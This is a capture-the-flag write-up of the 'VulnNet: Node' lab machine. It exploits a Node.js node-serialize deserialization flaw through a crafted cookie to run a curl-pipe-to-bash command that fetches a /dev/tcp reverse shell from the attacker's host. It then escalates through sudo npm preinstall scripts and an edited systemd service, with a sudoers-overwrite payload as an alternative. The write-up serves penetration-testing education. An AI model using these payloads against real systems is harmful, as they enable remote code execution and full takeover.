 ##VulnNet: Node

#Enumeration
```
# Nmap 7.91 scan initiated Mon Apr 26 14:31:28 2021 as: nmap -sCV -oN nmap/initial -vvv -p 8080 10.10.115.175
Nmap scan report for 10.10.115.175
Host is up, received timestamp-reply ttl 61 (0.15s latency).
Scanned at 2021-04-26 14:31:29 PDT for 12s

PORT     STATE SERVICE REASON         VERSION
8080/tcp open  http    syn-ack ttl 61 Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr 26 14:31:41 2021 -- 1 IP address (1 host up) scanned in 13.26 seconds
```

Looks like a web server using Node.js so lets check it out and look for vulnerabilities.

#Web Server Port 8080
Initially nothing of interest seems to be present.
We have some possible admins or users
Tilo Mitra
Eric Ferraiuolo
Reid Burke
Andrew Wooldridge
This may become useful as the only link we can find on the page is to /login which requires and email address and password combination. 
At this point we examine our storage and notice that the site is storing a cookie even though we have not logged in at all.
```
eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ%3D%3D

```
is the value of our cookie and if we remove the url-encoding is clearly a base64 string so we decode it and find the following json structure 
{"username":"Guest","isGuest":true,"encoding": "utf-8"}
Lets go ahead and format a new json structure and see if we can bypass the login page with the following,
{"username":"Admin","isAdmin":true,"encoding": "utf-8"}
unfortunately this doesn't allow us to bypass the login page, but it must be used somehow so let's open up burpsuite and play around. Submitting it doesn't give much a response, however if we misformat/delete half of the cookie value we get an interesting error
```
SyntaxError: Unexpected token  in JSON at position 0<br> 
&nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> 
&nbsp; &nbsp;at Object.exports.unserialize (/home/www/VulnNet-Node/node_modules/node-serialize/lib/serialize.js:62:16)<br> 
&nbsp; &nbsp;at /home/www/VulnNet-Node/server.js:16:24<br> 
&nbsp; &nbsp;at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)<br> 
&nbsp; &nbsp;at next (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:137:13)<br> 
&nbsp; &nbsp;at Route.dispatch (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:112:3)<br> 
&nbsp; &nbsp;at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)<br> 
&nbsp; &nbsp;at /home/www/VulnNet-Node/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:335:12)<br> 
&nbsp; &nbsp;at next (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:275:10)
```
It seems like it is using the unserialize function so perhaps we can abuse this in some way.
Searching for node js deserialization exploits yielded the following article, https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

```
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',
function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```
so lets use this format to craft a payload that will curl a shell script off my system and then send me a reverse shell.
```
shell.sh
bash -i >& /dev/tcp/10.13.1.12/4242 0>&1
```
and our payload to get this
```
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.13.1.12:8000/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}
```
we convert this to base64 and send it and sure enough we get a reverse shell as the www user

#Initial Foothold
sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
looks like we can use npm as serv-manage user and leverage the following sudo exploit
```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```
we can write in /dev/shm so lets do the following
```
www@vulnnet-node:/dev/shm$ mkdir temp
www@vulnnet-node:/dev/shm$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > temp/package.json
www@vulnnet-node:/dev/shm$ sudo -u serv-manage /usr/bin/npm -C /dev/shm/temp/ --unsafe-perm i
```
sure enough we get a shell as serv-manage and can find the user flag in it's home directory

#Root Escalation
```
sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```
Looks like we can run quite a few things as root to interact with the file vulnnet-auto.timer so let take a look at it
```
serv-manage@vulnnet-node:~$ locate vulnnet-auto.timer
locate vulnnet-auto.timer
/etc/systemd/system/vulnnet-auto.timer
serv-manage@vulnnet-node:~$ cat /etc/systemd/system/vulnnet-auto.timer
cat /etc/systemd/system/vulnnet-auto.timer
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
```
looks like it opens the following file
```
cat /etc/systemd/system/vulnnet-job.service
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c "curl 10.13.1.12:8000/shell.sh | bash"

[Install]
WantedBy=multi-user.target
```
We can read and write to both of these files so we can modify this .service file to instead of executing /bin/df instead send us a reverse shell using the same shell file from earlier for example. We could aslso easily do things such as edit the sudoers file to allow our user to execute all commands as root with a payload such as the following

ExecStart=/bin/bash -c 'echo "serv-manage ALL=(root) NOPASSWD: ALL" > /etc/sudoers'

Using however method we end up with a shell as the root user and can find the flag in the root directory.